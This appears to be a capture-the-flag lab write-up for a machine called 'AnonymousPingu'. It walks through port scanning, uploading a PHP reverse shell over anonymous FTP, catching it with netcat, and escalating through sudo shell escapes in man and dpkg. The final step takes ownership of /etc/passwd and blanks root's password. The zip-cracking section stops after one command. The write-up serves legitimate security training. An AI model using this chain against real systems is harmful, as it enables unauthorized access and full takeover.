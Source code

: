 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)
![alt text](image.png)

We see what appears the file called secretitopicaron.zip.

Similarly, I scanned the SSH port, but didn't find anything important

## Analyzing "secretitopicaron.Zip"

First we need to extract the hash from the .zip file. we use `zip2jonh` tool:

```ruby
zip2john secretitopicaron.zip > hash.txt
```






## Intrusion

For the intrusion, I used this GitHub script from "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Therefore, I used the ftp tool to upload the reverse.php file, configuring our IP and our port, and using the netcat tool to make the connection.

![alt text](Imagenes/Anon_3.png)

If we listen on port 1234 with netcat and execute the .php file in the browser, it returns the shell

```ruby
nc -lvnp 1234
```

![alt text](Imagenes/Anon_4.png)

Therefore, we are authenticated as the "data" user

# Tratamiento de la TTY

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Therefore, if we execute the following command, we can do it as the pingu user

```ruby
sudo -u pingu man man
```

Inside the manual, we can execute the following:

```ruby
!/bin/bash
```

We see that we change users and access as pingu

![alt text](Imagenes/Anon_5.png)

If we execute the previous order, we see new commands that we can execute as the gladys user

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

If we go to the GTObins page, we see that we can exploit it in the following way:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

We gain access with the "gladys" user in a similar way to the previous one.

![alt text](Imagenes/Anon_6.png)


If we execute the `sudo -l` command again

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

To do this escalation, we can do it in several ways. The simplest way is to try to edit the `/etc/passwd` file, removing the check when the root user's password is requested.

For this, we have to give permission to the gladys user and then overwrite the file

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Then with the `sed` tool we remove the "x" character that is in the root line, we create a temporary file in /tmp.

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Finally, we overwrite the `/etc/passwd` file

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

![alt text](Imagenes/Anon_7.png)
